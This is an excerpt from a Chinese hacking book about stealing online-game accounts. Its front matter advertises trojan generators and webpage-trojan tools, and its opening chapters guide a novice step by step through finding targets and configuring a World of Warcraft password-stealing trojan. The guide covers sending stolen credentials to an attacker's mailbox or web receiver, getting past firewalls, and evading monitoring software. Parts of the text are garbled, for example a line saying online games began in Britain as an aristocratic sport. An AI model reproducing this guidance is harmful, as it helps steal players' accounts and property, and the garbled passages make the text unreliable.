# 网游黑客宝典

## 《黑客X档案》畅销系列图书 菜鸟 Hacker 进化最佳教程


- **知己知彼——网络圣经典**  
  网游的末日——网游木马大揭秘。魔兽世界超级木马、传奇世界热血传奇木马、大话西游2&梦幻西游木马、剑侠情缘II木马、天堂家族马国际通用版、完美世界木马、热血江湖木马、综合密码盗取工具……

- **致命的攻击——网游攻击大揭秘**  
  常用扫描器的应用，利用各种远程溢出漏洞盗取网游账号。

- **木马的进化——网游木马变成杀毒软件**  
  和我一起动动手，你也会打造无敌的网游木马。

- **防不住的入侵——让网页也承载网游**  
  我要让你浏览个网页，就中我的网游木马，看你还守得住你的账号？

- **网游终结者——嗅探你的网游密码**  
  最后的绝招。只要你输入了你的密码，我就会知道，看你还往哪儿逃！

- **打造我们的网游之“盾”**  
  教你打造绝密的“金刚盾”“铜墙铁壁”“寒冰屏”，网游的守护神。

## 《黑客X档案》终极系列丛书 菜鸟 Hacker 进阶全攻略

# 网络黑客宝典

作者：张为怡　吴树林


吉林科技出版社

Ⅱ

黑客X档案制作


- 出品人：孙胜利
- 主编：杨东柱
- 副主编：刘佳
- 编辑部主任：丛林
- 技术顾问：孤独剑客
- 编辑部：sagi／呆呆虫／虫虫／小木头／石头／黄色潜水艇／笨牛牛
- 特约编辑：射手／职业欠钱／李春晓／姜超／vvw0830／孟方明
- 光盘部：嘿客
- 设计：谭海梅
- 排版：Bifrost
- 发行部主任：赵琦
- 发行经理：邵萍
- E-Mail：hackerxfiles@263.net
- 邮购查询 E-Mail：chaxunx@263.net
- 邮购查询电话：(010)88560080
- 发行联系电话：(010)88561472
- 联系人：赵琦／邵萍

## 前言

网络游戏作为国内一个新兴的产业，最近几年的发展是迅猛的，各种新的网络游戏层出不穷，吸引了国内成千上万的玩家投身其中，从最早的千年、魔力宝贝、热血传奇……到现在的魔兽世界、梦幻西游、大话西游、热血江湖……从最早的单纯只是以娱乐为目的地玩，到现在为了得到价值不菲的虚拟极品装备而玩，看着网上众多的网游装备交易网站，以及游戏里不停叫卖着装备的玩家就足以说明这一切了。

但随之而来的安全问题也越来越突出地显露了出来，许多玩家投了大量的时间、精力与金钱，千辛万苦地打到了或是交易到了游戏的极品装备，也许哪一天，他会突然发现自己的这些极品装备一下子就莫名其妙地没有了，还有的则是提示密码不对，而拒绝登录。对于这些痴迷的玩家来说，世上最伤心、最痛苦的事莫过于此，但目前中国法律对于网游虚拟物品的盲区却又是爱莫能助。

玩家的极品装备是如何丢失的呢？黑客是如何盗到这些网游账号密码的呢？我们的电脑安全吗？我们在玩网游的时候安全吗？如何才能防范自己的网游密码不被盗呢？或许这所有的答案你都能从本书中找到。

网游黑客宝典——国内第一本以网游为主题的黑客攻防图书！  
经典，来源于瞬间的灵感！

## 目录 网络黑客宝典

### 第一章 知己知彼——网络零距离

- 1.1 网游攻击方式分类 ...... 8
- 1.2 如何寻找目标 ...... 9

## 第二章 网游的末日——网游木马大接触

- 2.1 魔兽世界 ...... 12
  - 2.1.1 配置魔兽世界杀手木马生成器 VIP 版 ...... 12
  - 2.1.2 最新版的大陆魔兽世界木马 2.5 ...... 14
- 2.2 传奇世界 / 热血传奇 ...... 16
  - 2.2.1 传奇世界生成器 ...... 16
  - 2.2.2 海盗传奇木马 ...... 21
- 2.3 天堂 2 木马国际通用版 ...... 23
- 2.4 大话西游 2 木马 & 梦幻西游 ...... 25
- 2.5 剑侠情缘Ⅱ木马生成器 ...... 27
- 2.6 完美世界木马生成器 ...... 30
- 2.7 江湖黑手免费生成器 ...... 34
- 2.8 综合密码盗取 ...... 37

### 第三章 我们的攻击——网游攻击大揭秘

- 3.1 扫描工具的使用 ...... 42
- 3.2 ms04011 漏洞利用 ...... 47
  - 3.2.1 tftp ...... 51
  - 3.2.2 FTP ...... 51
  - 3.2.3 利用 VB 脚本下载 ...... 53
  - 3.2.4 EXE 转 BAT ...... 54
- 3.3 ms04007 漏洞利用 ...... 60
- 3.4 ms04045 漏洞利用 ...... 66
- 3.5 ms05039 漏洞利用 ...... 67
- 3.6 弱口令的利用 ...... 69

## 目录 网络黑客宝典

## 第四章 木马的进化——网游木马决战杀毒软件

- 4.1 让网游木马带上假面具 …… 77
  - 4.1.1 木马的自身“保护” …… 77
  - 4.1.2 捆绑软件的伪装 …… 78
- 4.2 打造超强免杀网游木马 …… 81
  - 4.2.1 ASPack 壳 …… 82
  - 4.2.2 UPX 壳 …… 85
  - 4.2.3 FSG 壳 …… 87

### 第五章 防不住的入侵——让网页也玩转网游

- 5.1 为什么网页木马可以盗取游戏账号？ …… 90
- 5.2 网页挂马的几种方式 …… 90
- 5.3 冰狐浪子网页木马生成器 …… 91
- 5.4 制作隐藏性更好的网页木马 …… 93
- 5.5 图片木马威力大 …… 95
- 5.6 CHM 网页木马生成器 …… 96
- 5.7 zxylove 网页木马生成器 …… 97
- 5.8 Real Player 网页木马生成器 …… 98
- 5.9 播放格式大展身手 …… 100
- 5.10 ms05-038 网页木马生成器 …… 101
- 5.11 MS06001 网页木马生成器免杀版 1.0 …… 102
- 5.12 网页木马也需要加密 …… 103

### 第六章 网游终结者——鼠标下的网游盗贼

- 6.1 传奇网吧杀手 …… 106
- 6.2 X-Sniff …… 108

## 第七章 打造我们的网游之“盾”

- 7.1 玄铁盾——游戏木马检测大师 …… 114
- 7.2 麒麟盾——木马克星 …… 118
- 7.3 寒冰盾——ZoneAlarm …… 122

## 光盘目录

### 图书相关

**魔兽世界杀手木马生成器VIP：** 本木马运行可以反杀常见杀软和防火墙，准确截取魔兽世界 ID、密码、区、服务器、人物名、装备信息。

**传奇世界生成器：** 更新后无小区、元宝显示、级别人物显示。

**海盗传奇木马：** 功能超强，是目前最完美的传奇2木马，适合专业装备商人使用。使用说明：填上自己的收信箱，建议使用 www.tom.com 的免费信箱。

**大话梦幻木马：** 截取梦幻西游账号信息，包括区域、服务器、账号、密码、主机名等强大功能。

**剑侠II生成器：** 剑侠2木马生成器，可被仓库密码，可生成图片木马、EXE 可执行木马2种方式，可设置中马后游戏的下线时间！邮箱发信收信更方便，目前免杀！

**红蜘蛛白银版：** 可根据设置的窗口标题关键字去获取指定窗口的键盘输入。

**F.B.I 国外捆绑机：** 一款国外非常优秀的文件捆绑机汉化版。

**传奇网吧杀手：** 运行后点击“开始”即可，在网吧有一人使用此软件，整个网吧所有传奇账号都可以截取到。

**匹巴监视器：** 一款利用计算机的网络接口捕获流经本机网络上数据报文的免费网络软件。

**游戏木马检测大师：** 本程序主要用途是检测您的系统是否被安装了游戏木马程序，可以运行于 Windows 98/ME/NT/2000/XP/2003 等各种操作系统。

### 兵器推荐

**百款绿色软件大礼包：** 精心收集百余款绿色软件，绝对超强！

**网游木马合集：** 内含大量网游盗号木马，谨慎使用。

**三茗一键恢复（3秒钟恢复系统）V1.57：** 三茗《一键恢复》不依赖于操作系统；在本地硬盘上实现系统数据以及 CMOS 参数的动态保护与恢复。

**统一网关0.96：** 实现对电信、网通、铁通、联通、移动、有线通、教育网、小区宽带上网用户的支持！统一网关基本实现了国内所有网络交互访问无障碍！

**国产木马黑洞全集：** 到目前为止，黑洞的开发已经告一段落。因为很多爱好者反映有些网站提供的客户端被捆绑了木马，所以在这里统一将黑洞2004-黑洞2005的客户端打包供下载。

**智能安全实验室：** 免疫、卸载国内外近2000种垃圾插件/软件/网站，如3721、百度Bar等的 Windows 安全工具，更可删除已安装软件和去除启动软件，去除系统/常用软件使用痕迹，清除 IE 的访问历史和 Cookies，个性化系统和 IE、检测局域网等。

### 学海追潮

- 热血江湖木马生成器配置动画
- 劲乐团游戏币教程
- 劲乐团游戏币教程
- 大话西游私服制作教程
- 奇迹SF入侵写真集
- 神泪私服架设
- QQ真正强行聊天动画+工具
- 菜鸟疯狂入侵3389教程
- 入侵内网鸡并运行嗅探
- 最全的一套灰鸽子教程
- 菜鸟破解还原卡（语音版）
- 多功能木马的4种挂马法

### 图娱自乐

**《魔兽大学》疯狂搞笑校园生活原创DV：** 故事发生在“北京魔兽大学”的地方，这是一所专业性很强的学校，院系设置、课程设置、考试设置等都改成了魔兽争霸。玩儿魔兽的同学们，你们是否希望现在的期末考试的通信原理取消，而改考魔兽对战呢？影片里当然有魔兽内容，有魔兽课程、专题训练、魔兽考试，相信玩儿过魔兽的和没玩儿过魔兽的同学都能从中体会到其中的乐趣。

- Vista语音识别视频演示
- 绝对的牛B的动作
- 打台球高手
- 神奇的金鱼
- 电脑要这样卖才推销得出去！
- 惊险万分的飞机失事
- 最惨，最惊心动魄的车祸
- NBA精彩打架视频
- 英超十年最佳进球
- 泰森拳击的经典时刻
- 足球场上的暴力群殴
- 群殴事件
- 新兵训练营写照
- 让飞机打中头部

## 网游场建设

## 第一章 知己知彼——网游基础

网游诞生于英国，最初是一项贵族运动。随着社会的发展，网游逐渐普及，成为全球广泛参与的体育项目。

险恶网游江湖路，高手菜鸟齐折腰；刀光剑影今又现，“网”林从此任逍遥！

这天，阿黑正在家上网，只见阿菜哭丧着脸走了进来。

“阿黑，我辛辛苦苦练的魔兽60级的牧师号被人偷了，我身上的那些极品装备像什么庇护者、玛尔里之眼、恢复宝石、龙鳞碎片，可是花了好多 money 买的呀！我知道你每个月都看《黑客X档案》，看在同学和好朋友的份儿上，你这回可一定得帮我找回来呀！”

阿黑：“阿菜，你先别着急，详细说说，你的魔兽号是怎么丢失的？”

“我以前一直是在家中上网玩网游，昨天阿剑硬拉着我和他一起去网吧上网，可今天我在家一上魔兽，就怎么也上不去了，总是说我密码不对。”阿菜说道。

“看样子一定是你在网吧上网的那台电脑中了盗号的木马。”

“什么，中了木马？怎么中的呀？你具体给我讲讲吧！”

“网游盗号盗装备，说简单不简单，说难也不难。其实和普通的黑客攻击方法都是相似的，当初就让你和我一起看《黑客X档案》，可你是三分钟热度，没耐心看，总是想着玩儿，现在后悔了吧！”阿黑说道。

“阿黑呀，你快告诉我我的网游号是怎么被偷走的吧，哪这么多废话呀，只要你肯教我，大不了你以后的《黑客X档案》我给你买了。”

阿黑一听，别提有多高兴了：“阿菜，这可是你自己答应的呀，别要赖呀。对了，我有点儿渴了，你去厨房给我泡杯雀巢咖啡。”

“这鸟窝牌咖啡有啥好喝的，还不如喝可乐呢。”阿菜一边嘟囔着一边去了厨房。

### 1.1 网游攻击方式分类

喝了一口咖啡，阿黑开始慢慢地讲了：“这网游攻击呀，按照攻击的方式可以分为三种，一种是主动攻击，一种是被动攻击，还有一种是欺骗式的攻击。”

“居然还有这么多种攻击方式，真是复杂。”阿菜道。

“你不懂别乱插嘴，省得打乱了我的思路。”

阿菜吐了一下舌头，不敢再插嘴了。阿黑继续讲道：“主动攻击，就是指攻击者主动地去寻找正在玩网游或电脑里安装了网游的主机，然后寻找对方电脑上存在的漏洞入侵进去，上传自己配置好的盗号木马，来达到偷取对方网游用户密码的目的；而被动攻击，则是指攻击者利用 IE 漏洞或是网页木马生成器之类的工具制作出恶意的网页文件，并将其放到自己的个人空间甚至是用这些文件替换掉其他网站的文件，当用户访问这些网页时，盗号木马就会偷偷地下载到对方的电脑上并执行。欺骗式攻击相对地好理解，攻击者将配置好的盗号木马改成别的名字的 exe 文件，或是与其他正常的文件、图片捆绑在一起，通过 QQ、MSN、电子邮箱等发送给别人来运行。”

“阿黑呀，你别一下子讲这么多，不然，我又听不懂了。你先给我讲讲主动攻击吧！”

## 第二章 知己知彼——网游与扫描

> “主动攻击的步骤是这样的，先寻找正在玩网游的主机或安装了网游的主机—配置好相应的木马—找出对方系统上存在的漏洞入侵进去—上传配置好的木马并执行—盗号成功—登录网游改密码或是盗装备”。

### 1.2 如何寻找目标

如何寻找正在玩网游的主机呢？一种简单的方法就是通过端口。先让我们来看一下没有玩网游时我们的电脑所开启的所有端口号，通过“开始”—“程序”—“附件”—“命令提示符”来打开 Windows 的 CMD 命令环境，输入 **netstat -an** 就可以清楚地看到当前电脑所开启的端口了，如图1.1。现在，我们运行网游，然后再使用 netstat 命令来查看端口情况，从图1.2中我们可以清楚地看到我们的电脑使用1613号端口连接了远程网游服务器220.181.30.160的7588端口。因此理论上讲，我们通过端口扫描程序扫描1613号端口就可以找到运行大话西游2的主机了，至于其他的网络游戏，也是同样的道理。阿黑还没有讲完，就见阿菜已经启动了端口扫描工具开始狂扫1613端口了，可是过了一会儿，阿菜发现不大对劲了：“阿黑呀，你讲的不大对呀，我扫了半天也没有找到一个呀，刚才我还特意让一个朋友运行了大话西游2，可是扫描他的电脑，也没有扫描到呀？这是怎么回事？”



图1.1



图1.2

“网游服务器的 IP 地址及端口号基本上是固定不变的，但是我们电脑所使用的连接端口号却是随机产生的。比如刚才使用的1613端口，倘若我们退出游戏后，过一会儿再登录游戏，就会发现我们使用的端口已经不再是1613了，如图1.3。其实，现在的网络游戏都是这种情况，因此，通过端口号来寻找网游主机的方法并不是有效的，仅能作为一种参考而已。”



图1.3

“我晕，讲了这么半天，原来你讲的全是废话呀，真是浪费我的感情！”阿菜开始抱怨了。

“别打岔，你怎么这么没有耐心呀，还想不想找回你的号呀？”阿菜不敢抱怨了。

阿黑又开始讲了起来，“其实，我们根本就没有必要非得知道对方是否在玩网游，只要想办法将配置好的木马弄到对方的电脑上执行就可以了，当对方启动网游后，木马自会将对方的用户密码信息发送到我们指定的邮箱里。”

“噢，是这样，你早说不就得了。那怎么使用这些木马来盗号呢？”

“要使用木马，当然得先配置好木马才行；下边我就来详细地讲一讲这些木马如何配置生成服务端。”

## 阿房宫赋

## 第二章 网游的末日——网游木马大接触

网游黑色产业链第一环：盗号木马制售。阿房宫赋：……（该区域文字严重倾斜且重影，主体可辨为网游木马相关说明性段落）

### 2.1 魔兽世界

魔兽世界这款网络游戏现在可是相当的火呀，好像前几天网上曝光说，就连姚明也在玩魔兽呀，这要是能将姚明的魔兽号给搞到手……嘿嘿！

“是呀，是呀，魔兽真的很好玩，想当初为了尽早地达到六十级，我没日没夜地苦练，现在总算是熬出头了，穿着一身紫装，千G马骑着，看见敌对阵营的玩家就一个字‘杀’。下MC时虽然没当过MT，但也有时会OT，呵呵，开玩笑的。不过最可惜的是我们服务器‘安其拉’开门时我还在排队，没法见证那个历史的时刻，诅咒那些看热闹的人……”阿莱开始两眼放光，唠叨不绝。

“怎么一说到魔兽世界你就停不下来，别废话了，现在我就告诉你怎么配置一个超级无敌露房的魔兽世界杀手木马生成器。”

### 2.1.1 配置魔兽世界杀手木马生成器VIP版

我们先来打开这个魔兽世界杀手木马生成器 VIP 版，它的界面非常简单（图2.1）。



图2.1

这个木马在网上还没有免费发布，我搜索了一下，发现都是要钱的。至于我是如何搞到手的，当然绝对不是用 Money 换来的，而是我“碰巧”入侵一个卖网游木马的网站时的收获。

下面我就来具体说说这款魔兽世界木马的配置。

##### 一、后门

这个功能是在你中木马的电脑上留下后门，因为没有作者的解释，也不知道这个木马安装后门的方法，所以此处不用填写。我们不用担心这会影响到木马的使用，安装后门和截取魔兽世界密码发送信件是互不影响的，对于我们来说能得到账号和密码才是主要的。

##### 二、发信

魔兽世界木马截取了游戏的账号和密码后要发到我们指定的地方，这个要是没有设置好，我们可是收不到魔兽信封的（魔兽信封：记录账号和密码的信件。这是现在流行的说法）。这款魔兽世界杀手木马生成器发送账号和密码的方式分为两大类。

###### 1. 网页收信法

这种方法是木机通过向特定网页提交账号和密码，把账号保存在我们指定的文件中。这种方法的优点是不容易被防火墙拦截，因为有的人为了防止被盗号，在本机的防火墙中设置了禁止向外部发送邮件，但是他不可能禁止访问网页吧，这样他自己也没办法浏览网页了，我们的木马在发送账号和密码时正好可以被当作是正常的网页访问而允许通过。可是这种方法也是有缺点的，我们必须要有一个空间来放置我们的接收程序，而且这个空间还要支持动态网页，像 ASP、PHP 等。我们还要保证空间的安全性，不然就给他人作嫁衣裳了。这款木马没有带网页收信程序，我就不能演示，不过在后面的木马中会给大家介绍具体的使用方法。

###### 2. 邮箱收信法

这种收信方法是我们现在普遍使用的方法，它的可靠性是网页收信法无法比拟的。因为我们的使用空间差不多都是免费，这样就造成空间很不稳定和很慢的连接速度，这在发信和收信的过程中就会无可避免地出现一些错误。而我们使用的那些在大网站注册的邮箱收信就不会出现这种情况，像网易、雅虎等的邮箱都很稳定。这款木马提供了两种发邮件的方式：MX 特快和普通连接 SMTP 发送。

> **小提示：** MX 特快又称邮件直发。邮件直发技术是直接连接到收件箱的 SMTP 服务器，将邮件投递。很像生活中的特快专递。不需要通过 SMTP 代理，可以直接通过本地或邮箱所在的邮件交换器发送邮件。与一般通过 SMTP 代理不同的是少了 SMTP 服务器的指定及其验证的用户名和密码。

我们可以从上面看出这种技术的便捷，只需要填写一个邮箱就可以了。但是目前有些邮件服务器会过滤垃圾邮件和不良信件，所以在选择邮箱时就要找一个能收到信件的，像 QQ 和 21cn 就可以使用，不过我们在使用前最好先测试一下。

普通发送处可以选择网易的邮箱，最好申请两个邮箱，一个用来发送信件，一个用来接收信件。这样即使被别人嗅探到了邮箱密码，也不能进入我们的接收邮箱。如果使用一个邮箱的话还容易被网易封掉，我的邮箱就因为自己给自己发信太多被网易封了。我们填上发件邮箱和密码，发件服务器不用修改，默认的就是网易的邮件服务器：smtp.163.com，如果要使用别的邮箱，就要更改成你的邮箱所对应的邮件服务器。

器。收件邮箱就填写你的接收邮箱，图2.2就是我配置的方案。



图2.2

##### 三、生成木马

我们在生成木马的时候不要在“生成测试版”前打勾，不然收到的密码只有前四位，如果在本机做测试时可以使用这个功能。点击“生成木马”，如图2.3。程序就在其所在目录生成了一个木马。



图2.3

##### 四、卸载木马

这个程序提供了卸载功能，方便了我们在本机做完测试后的清除工作。点击“卸载内存中的木马”按钮后就完成卸载了。

通过上面的介绍我们会发现，每种收信方式都有它的优点和缺点，没有任何事情是完美的，所以我们要选择一个最适合自己的方法。

### 2.1.2 最新版的大陆魔兽世界木马2.5

这款魔兽世界木马是最新发布的，支持最新1.10版WOW。程序介绍中还说明了软件修正了上个版本的截取率、邮件发送等若干个BUG，修正上个版本出现乱码的问题。最让我感兴趣的是这个木马没有 HOOK 钩子实行内存截取，这样能逃过许多厉害的木马监控软件。你还不知道什么是 HOOK 吧，让我先来给大家补个课。

> 钩子（Hook），是 Windows 消息处理机制的一个平台，应用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理 Windows 消息或特定事件。钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。在当特定的消息发出，在没有到达目的窗口前，钩子程序就捕获该消息，显示即钩子函数先得到控制权。这时钩子函数即可加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

看了微软对钩子的定义，应该明白了大多数盗号木马的原理。它们使用钩子截取用户输入的信息并保存或发送。这么好用的钩子一些木马监控软件当然也不会放过，即使你修改了特征码，躲过了杀毒软件，但在利用钩子时也会立刻现形。这个木马没有利用钩子截取信息，而使用内存截取的方式，看出来它的优势了吧。

